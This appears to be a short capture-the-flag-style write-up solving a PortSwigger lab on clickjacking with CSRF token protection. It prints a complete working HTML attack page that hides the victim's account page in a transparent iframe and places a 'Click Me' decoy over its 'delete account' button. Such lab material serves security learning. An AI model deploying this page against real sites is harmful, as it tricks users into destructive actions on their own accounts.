

# Lab Basic clickjacking with CSRF token protection

**Link**: https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected

**Solution**:
just create a html with `iframe`, and position the div button to `delete account` button in my account page

like the following

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 700px;
            opacity: 0;
            z-index: 2;
        }
        div {
            position:absolute;
            top:515px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Click Me</div>
    <iframe src="https://0aa8003d03d9436ec036d778006500d7.web-security-academy.net/my-account"></iframe>
</body>
</html>
```

<p align="center" width="100%">
  
</p>
